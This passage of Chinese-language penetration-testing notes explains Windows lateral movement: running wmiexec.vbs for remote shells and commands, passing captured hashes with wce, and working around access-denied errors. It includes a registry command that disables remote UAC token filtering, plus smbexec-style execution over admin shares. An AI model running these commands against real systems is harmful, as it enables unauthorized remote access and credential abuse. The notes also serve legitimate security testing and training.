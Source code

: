 ps:  
如果出现User credentials cannot be used for local connections,应该是调用了calc.exe权限不够的问题  
如果出现Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用  

##### wmiexec.vbs  
```
1、半交互模式
cscript.exe //nologo wmiexec.vbs /shell ip username password
2、单命令执行
cscript.exe wmiexec.vbs /cmd ip username password "command"
3、wce_hash注入
如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash
wce -s hash
cscript.exe //nologo wmiexec.vbs /shell ip
```
![](./pic/6/3.jpg)  
wmi只是创建进程,没办法去判断一个进程是否执行完成(比如ping),这样就导致wmi.dll删除不成,下一次又是被占用,这时候修改一下vbs里面的名字就好：`Const FileName = "wmi1.dll"`,也可以加入`-persist`参数(后台运行)  

另外有一个uac问题  
**非域用户**登陆到win08和2012中,只有administrator可以登陆成功,其他管理员账号会出现WMIEXEC ERROR: Access is denied
需要在win08或者2012上面执行,然后才可以连接:  
```
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
![](./pic/6/4.jpg)  

##### smbexec
这个可以根据其他共享(c$、ipc$)来获取一个cmd  
```
先把execserver.exe复制到目标的windows目录下,然后本机执行
test.exe ip user pass command sharename
```